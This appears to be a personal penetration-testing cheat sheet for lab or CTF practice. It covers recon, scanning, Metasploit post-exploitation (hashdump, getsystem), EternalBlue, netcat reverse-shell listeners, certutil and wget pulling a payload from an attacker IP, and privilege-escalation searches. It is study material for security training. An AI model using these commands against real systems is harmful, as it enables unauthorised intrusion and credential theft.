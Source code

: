 5 STAGES OF HACKING

### 1 Reconnaissance (Info gathering)
Recon has two parts 
1. Passive
2. Active (Scanning and Enumeration)

Use nmap to scan the targets
Note the discovered IPs
Use nikto on web servers
Use Dirb








### 2 Scanning and Enumeration
1. Nmap
2. Source code analysis
3. Nikto
4. SMB
5. searchsploit

NOTE: If you hit a deadend, search the version exploit on google.
### FTP: We have two options to exploit.
1. Exploit the ftp software version related vulnerabilities.
2. Exploit the ftp by uploading a shell then using a webserver directory to execute the shell.  	 

### 3 Gaining Access (Exploitation)
NOTE: ALWAYS ALWAYS SET LHOST TO YOUR IP
NOTE: Always use auxerally scanners to confirm the vulnerability exists before sending an exploit.
Learn how to select session and background session
getuid
sysinfo
history
cat .bash_history
sudo -l (Search for (root) NOPASSWD )
Architecture
getsystem
hashdump
shell
locate
unshadow
Staged Payload (generic/shell/reverse_tcp)
Unstaged Payload (generic/shell_reverse_tcp)
Ethernal Blue (Windows 7 + SMB) // Manual way to exploit Eternal blue >> Autoblue.py
netstat (Show open ports)
search suggester
binary put file_name (Use this command to send file via ftp)
nc -nvlp 4447 (Netcat lsitner)
searchsploit
sourcecode analysis of the webpage
migrate _processnumber_ (Windows)
nikto -h URL
curl http://url




### 4 Maintaining Access

### 5 Covering tracks


### Screenshot taking tool for windows
Greenshot

### Note taking tool 
Keep note

For each host make sure you are creating a Keep note file.
Within the file
Create two sections
1. Scanning
	port number -- ip
	related vulnerabilites

	Nikto Scan results

2. Vulnerabilities
Port number - Potentially vulnerable to XXXX (url)

### Low hanging fruties
80
443 / SSL
139/smb
445/SMB
Webalizer
SSH

### Rapid7 and Exploit DB


### Dirbuster File Extensions

Windows Server
asm,asmx,asp,aspx,bak

Apache
php,zip,rar,bak


### HTTP Server (Linux)kali
python -m SimpleHTTPServer 80
You hosted a file on linux using the above command then you can get the file in windows by the below command.

For PYTHON 3
python3 -m http.server
  
### Transporting file to Windows
certutil -urlcache -f http://10.10.14.24/sh.exe c:\user\desktop

### Transporting files to Linux
wget http://IP_ADDRESS/file_name

### Netcat listner
nc -nvlp 1234

### Linx privilage escalation scripts
LinEnum.sh
Linuxprivchecker.py

### Convert a nc to bash shell
python -c 'import pty; pty.spawn("/bin/bash")'

find / -user root -perm /4000 2> /root/Desktop/suid.txt



### find files in bash shell
find / -type f -name user.txt



### 
https://gtfobins.github.io/gtfobins/python/
### Exploit 
Local (Use local when you have already gained access to the system.)
exploits/linux/local/xyz.php
or 
Remote (Use remote to gain access to the system)
exploits/linux/remote/xuz.php

### tty issue
search on google tty escape

### Webapp Sec
Learn all the allowed methods 

Learn all the error codes.
